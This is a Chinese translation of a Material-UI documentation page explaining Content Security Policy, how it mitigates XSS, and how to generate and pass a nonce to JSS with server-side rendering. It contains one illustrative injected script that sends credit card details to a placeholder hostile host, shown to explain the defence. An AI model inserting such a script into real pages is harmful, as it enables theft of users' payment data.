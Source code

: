 # 内容安全政策（CSP）

<p class="description">Material-UI支持内容安全策略标头。</p>

## 什么是 CSP，为什么它有用？

基本上，CSP 通过要求开发人员将其资产从中检索的源列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的标头返回。 例如，假设您有一个托管在`https://example.com`的网站 CSP 头`default-src：'self';`将允许位于`https://example.com/*`的所有资产并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>

此漏洞允许攻击者执行任何操作。 但是，使用安全的 CSP 标头，浏览器将不会加载此脚本。

您可以在此处阅读有关 CSP [的更多信息](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 。

## 如何实现 CSP？

为了将 CSP 与 Material-UI（和 JSS）一起使用，您需要使用 nonce。 随机数是一个随机生成的字符串，只使用一次，因此您需要添加服务器中间件以在每个请求上生成一个。 JSS 有[一个很棒的教程](https://github.com/cssinjs/jss/blob/master/docs/csp.md)关于如何使用 Express 和 React Helmet 实现这一目标。 对于基本纲要，请继续阅读。

CSP nonce 是 Base 64 编码的字符串。 你可以这样生成一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

使用 UUID 版本 4 非常重要，因为它会生成**不可预测**串。 然后，将此随机数应用于 CSP 标头。 应用了随机数时，CSP 标头可能如下所示：

```js
header('Content-Security-Policy').set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

如果使用服务器端呈现（SSR），则应在服务器上的`<style>`标记中传递 nonce。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() }}
/>
```

然后，您必须将此随机数传递给 JSS，以便将其添加到后续`<style>`标记中。 客户端从头部获取 nonce。 无论是否使用 SSR，都必须包含此标头。

```jsx
<meta property="csp-nonce" content={nonce} />
```
